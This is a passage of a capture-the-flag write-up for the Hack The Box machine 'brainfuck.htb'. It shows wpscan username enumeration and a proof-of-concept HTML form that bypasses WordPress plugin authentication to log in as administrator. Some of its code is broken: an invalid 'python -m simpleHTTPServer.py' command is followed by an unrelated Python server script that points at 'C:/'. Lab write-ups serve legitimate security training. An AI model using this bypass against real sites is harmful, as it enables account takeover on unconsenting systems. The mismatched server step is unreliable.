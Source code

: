 • You do however need a valid username for the attack to work. Therefore, let’s use wpscan to enumerate usernames.
 
 wpscan --url https://brainfuck.htb --disable-tls-checks --enumerate u
 
• --enumerate u: enumerates usernames.

•  We get back the following result.
 
![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/1/20.jpg)



•  Both “admin” and “administrator” are valid usernames.
 
•  Now that we have a valid username, let’s attempt to exploit the vulnerability.
 
 python -m simpleHTTPServer.py
 
 
from http.server import HTTPServer, SimpleHTTPRequestHandler
import os

server_address = ('127.0.0.1', 8080)    
httpd = HTTPServer(server_address, SimpleHTTPRequestHandler)
os.chdir('C:/')  # optional
print('Running server...')
httpd.serve_forever()



Gaining Initial foothold

• Copy the POC code from the vulnerability entry on searchsploit and save it in the file priv-esc.html.
 
• Change the URL to the name of the machine.
 
 <form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php"> Username: <input type="text" name="username" value="administrator">
 <input type="hidden" name="email" value="sth"> 
 <input type="hidden" name="action" value="loginGuestFacebook">   
 <input type="submit" value="Login">
 </form>
 
• Get the location of the exploit file on the attack machine.

pwd

• Run it in the browser and login as administrator.

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/1/21.jpg)

• Refresh the brainfuck.htb page and we’re logged in as administrator!

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/1/22.jpg)

•  There doesn’t seem to be much functionality available for this user.
 
•  Therefore, let’s try the ‘admin’ user next.
 